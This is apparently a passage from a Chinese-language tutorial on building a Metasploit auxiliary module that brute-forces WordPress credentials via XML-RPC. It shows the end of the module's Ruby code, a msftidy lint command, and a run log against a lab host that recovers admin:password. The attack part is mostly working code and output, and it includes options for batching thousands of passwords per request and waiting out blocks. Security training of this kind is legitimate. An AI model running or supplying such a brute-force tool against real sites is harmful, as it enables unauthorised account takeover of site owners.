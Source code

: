 ```
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

  end end end
end 
```

+   检查模块是否已正确编写（msftidy.rb）

```
metasploit-framework/tools/dev/msftidy.rb wordpress_xmlrpc_massive_bruteforce.rb 
```

**运行它**

```
msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > show options 

Module options (auxiliary/scanner/http/wordpress_xmlrpc_massive_bruteforce):

   Name         Current Setting                                                                 Required  Description
   ----         ---------------                                                                 --------  -----------
   BLOCKEDWAIT  6                                                                               yes       Time(minutes) to wait if got blocked
   CHUNKSIZE    1500                                                                            yes       Number of passwords need to be sent per request. (1700 is the max)
   Proxies                                                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        172.17.0.3                                                                      yes       The target address
   RPORT        80                                                                              yes       The target port
   TARGETURI    /                                                                               yes       The base path
   VHOST                                                                                        no        HTTP server virtual host
   WPPASS_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_pass.txt   yes       File containing passwords, one per line
   WPUSER_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_users.txt  yes       File containing usernames, one per line

msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > run

[*] Checking 172.17.0.3:80 status!
[*] Target 172.17.0.3:80 is running WordPress
[*] Brute forcing user: admin
[+] Credentials Found! admin:password
[*] Brute forcing user: manager
[*] Brute forcing user: root
[*] Brute forcing user: cisco
[*] Brute forcing user: apc
```